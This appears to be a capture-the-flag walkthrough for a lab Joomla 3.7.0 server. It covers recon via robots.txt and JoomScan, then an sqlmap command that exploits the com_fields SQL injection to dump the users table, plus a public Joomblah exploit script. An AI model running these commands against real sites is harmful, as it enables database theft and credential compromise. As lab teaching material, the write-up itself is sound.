 ## HTTP
![](https://imgur.com/rXcoVY9l.png)

From the `robots.txt` entry `administrator` we will get the idea it's running joomla.

http://10.10.48.197/administrator/
![](https://imgur.com/O9mJh8Vl.png)
Qustion here is what version is it? is there a way we can exploit it?

### Joomscan
You can download from here [Joomscan github](https://github.com/OWASP/joomscan).

```bash
joomscan -u http://10.10.48.197
  ____  _____  _____  __  __  ___   ___    __    _  _
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.48.197 ...
[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing                                                             ...                                                                
```
We now know it's running Joomla 3.7.0, let's see if there are any exploits using `searchsploit`
### Searchsploit
![](https://imgur.com/MmheHb2l.png)
```
sqlmap -u "http://10.10.48.197/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump
```
**Instead of using SQLMap, why not use a python script!**
Okey! Let's google and find that python script.
### Joombhla
I found a python script [Joombhla](https://github.com/XiphosResearch/exploits/tree/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah)
`python3 joomblah_py3.py http://10.10.48.197`
![](https://imgur.com/eNUq1UXl.png)
